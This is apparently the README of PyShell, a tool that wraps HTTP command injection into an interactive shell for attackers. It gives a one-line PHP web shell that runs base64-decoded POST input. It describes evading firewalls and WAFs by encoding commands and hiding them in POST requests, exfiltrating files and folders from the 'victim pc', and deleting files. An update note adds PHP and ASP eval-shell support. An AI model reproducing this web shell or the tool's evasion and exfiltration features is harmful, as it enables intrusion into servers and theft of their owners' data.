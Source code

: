# PyShell - Shellify Your HTTP Command Injection!

Firewall got you down? Are your reverse-shell connection attempts being
filtered? Are you stuck working solely over HTTP / HTTPS? Then this just might
be just the thing for you.

PyShell exists to make interacting with web-based command injection less
painful. The goal is to make it feel as much like an interactive shell as
possible. Commands are base-64 encoded to help deal with WAFs, and are submitted
as POST requests to be less visible in request logs.

Usage is `python3 pyshell.py URL` where URL points to a script which performs
the command injection, something like this:

```
<?php $r=base64_decode($_POST['cmd']).' '.base64_decode($_POST['opts']); echo `$r` ?>
```

The server-side script should accept the following parameters:
 - `cmd`: the command to be run, base64 encoded
 - `opts`: the options to provide to cmd, also base64 encoded
 - `[timeout]`: optional, denotes the number of seconds to wait for a command

## USAGE DEMO:
![Screencast](pyshell-usage.gif)

## COOL FEATURES:
 - Basic command history (up arrow / down arrow to navigate).
 - Navigate directory tree with `cd [target]` pseudo-command.
 - Exfiltrate files or folders via `get [target]` pseudo-command.
 - Tab completion. (whoa!)

## KNOWN ISSUES:
 - Trying to `cd` into a non-existent directory is not prevented

## MISC NOTES:
Note that you only get output when the command you run exits. Interactive
commands are also unsupported, for reasons that should be obvious -- although if
you ever forget why while using PyShell, we'll consider that a success!

To change the timeout parameter passed with each command, run `settimeout n`. It
defaults to 20. Unless you handle the timeout parameter server side, it does
exactly nothing.

Your command-history is located in `~/.pyshellhistory`.

When exfiltrating data, a tgz file will be created in the `downloads`
subdirectory (which will be created as needed). If you do not have permission to
read a file, the file will simply be omitted in the downloaded archive.

-----------------------------------------------------------------------------------------
## UPDATES
Apart from these above, I made some changes to this project. Below are the differences.
1. fix the problems mentioned of 'cd' to some extent;
2. choose zip which is universal as the format of compressed files;
3. Supports the eval shell of PHP and ASP;
4. Both the attacker pc and the victim pc are able to run on Windows and Linux system;
5. Additional functions: downloading of folders, downloading of big files(users can operate other commands and check the downloading progress while downloading these files), and renaming and deleting of files.

I am a green-hand programmer and I am aware about the efficiency of the code is quite low. If you have some advice to optimize it, please let me know.
